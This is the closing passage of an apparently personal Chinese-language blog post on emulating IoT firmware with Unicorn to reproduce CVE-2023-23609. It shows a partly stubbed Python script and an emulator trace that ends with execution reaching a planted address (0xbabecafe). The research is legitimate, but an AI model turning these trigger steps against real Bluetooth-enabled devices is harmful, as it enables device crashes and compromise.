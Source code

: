 ```python
    # TODO: run until
    # 00210768  30bf       wfi

    # TODO: inject RF data available IRQ
    # TODO: reach input_l2cap_conn_req
    
    # TODO: use CVE-2023-23609 to overwrite:
    # 200010e4  uint32_t notification_process = 0x0
    notification_process = u32(mu.mem_read(0x200010e8, 4))
    print(f'notification_process = {notification_process:08x}')
    print(mu.mem_read(0x20001268, 0x8))

    # TODO: inject irq 160 and crash firmware

main()
```

实在是丑陋不堪，但是能用！

```
...
[hook block] 0x203d6c, 2, None
[hook block] 0x203d5a, 4, None
Interrupted...
[hook block] 0x205114, 24, None
[hook block] 0x20512c, 6, None
[hook block] 0x205132, 4, None
[hook block] 0x2052e8, 2, None
[hook block] 0x2052ea, 10, None
0x2052F0: p->state - 1  0x0
[hook block] 0x2052f6, 10, None
[hook block] 0x2052f4, 2, None
[hook block] 0x205136, 6, None
ok
[hook block] 0x205494, 8, None
0x205498: poll_requested  1
[hook block] 0x2054ac, 4, None
[hook block] 0x2053d8, 14, None
[hook block] 0x2053e8, 2, None
[hook block] 0x2053ea, 6, None
[hook block] 0x2053f0, 16, None
[hook block] 0x205398, 10, None
[hook block] 0x2053a2, 8, None
[hook block] 0x2053aa, 14, None
[hook_mem_unmapped] 21, babecafe, 4, 0, None
0xbabecafe Bingo!!
```


## 结束了吗？

本文记录了初次使用 Unicorn，并在没有任何硬件的情况下对某物联网 OS 固件进行软件模拟，并复现某个较易利用的漏洞的过程。笔者对自己写的模拟代码相当不满意，其中也有不少地方可以深究。但目前打算暂放一下，希望几个月后回顾这篇文章时会觉得漏洞百出，依托答辩。收工！
